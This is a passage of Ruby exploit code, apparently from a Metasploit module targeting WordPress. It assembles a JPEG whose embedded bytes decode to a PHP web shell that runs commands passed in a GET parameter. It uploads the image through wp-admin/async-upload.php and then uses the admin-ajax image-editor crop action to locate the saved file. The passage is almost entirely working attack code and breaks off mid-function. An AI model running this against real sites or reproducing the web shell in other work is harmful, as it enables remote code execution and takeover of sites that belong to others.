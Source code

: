           A3 A4 A5 A6 A7 A8 A9 AA B2 B3 B4 B5 B6 B7 B8 B9 BA C2 C3 C4 C5 C6 C7 C8 C9 CA D2
          D3 D4 D5 D6 D7 D8 D9 DA E2 E3 E4 E5 E6 E7 E8 E9 EA F2 F3 F4 F5 F6 F7 F8 F9 FA FF
          DA 00 0C 03 01 00 02 11 03 11 00 3F 00 3C 3F 3D 60 24 5F 47 45 54 5B 30 5D 60 3B
          3F 3E
        ]
        img_data = [img_data.join].pack('H*')
        img_name += '.jpg'

        boundary = "#{rand_text_alphanumeric(rand(10) + 5)}"
        post_data = "--#{boundary}\r\n"
        post_data << "Content-Disposition: form-data; name=\"name\"\r\n"
        post_data << "\r\n#{img_name}\r\n"
        post_data << "--#{boundary}\r\n"
        post_data << "Content-Disposition: form-data; name=\"action\"\r\n"
        post_data << "\r\nupload-attachment\r\n"
        post_data << "--#{boundary}\r\n"
        post_data << "Content-Disposition: form-data; name=\"_wpnonce\"\r\n"
        post_data << "\r\n#{wp_nonce}\r\n"
        post_data << "--#{boundary}\r\n"
        post_data << "Content-Disposition: form-data; name=\"async-upload\"; filename=\"#{img_name}\"\r\n"
        post_data << "Content-Type: image/jpeg\r\n"
        post_data << "\r\n#{img_data}\r\n"
        post_data << "--#{boundary}--\r\n"
        print_status("Uploading payload")
        upload_uri = normalize_uri(datastore['TARGETURI'], 'wp-admin', 'async-upload.php')

        res = send_request_cgi(
          'method'   => 'POST',
          'uri'      => upload_uri,
          'ctype'    => "multipart/form-data; boundary=#{boundary}",
          'data'     => post_data,
          'cookie'   => cookie
        )
        fail_with(Failure::UnexpectedReply, 'Unable to upload image') unless res && res.code == 200 && res.body && !res.body.empty?
        print_good("Image uploaded")
        res = JSON.parse(res.body)
        image_id = res["data"]["id"]
        update_nonce = res["data"]["nonces"]["update"]
        filename = res["data"]["filename"]
        return filename, image_id, update_nonce
      end

      def image_editor(img_name, ajax_nonce, image_id, cookie)
        uri = normalize_uri(datastore['TARGETURI'], 'wp-admin', 'admin-ajax.php')
        res = send_request_cgi(
          'method'    => 'POST',
          'uri'       => uri,
          'cookie' => cookie,
          'vars_post'  => {
            'action' => 'image-editor',
            '_ajax_nonce' => ajax_nonce,
            'postid' => image_id,
            'history' => '[{"c":{"x":0,"y":0,"w":400,"h":300}}]',
            'target' => 'all',
            'context' => '',
            'do' => 'save'
          }
        )
        fail_with(Failure::NotFound, 'Unable to access page to retrieve filename') unless res && res.code == 200 && res.body && !res.body.empty?
        filename = res.body.scan(/(#{img_name}-\S+)-/).flatten.first
        fail_with(Failure::NotFound, 'Unable to retrieve file name') unless filename
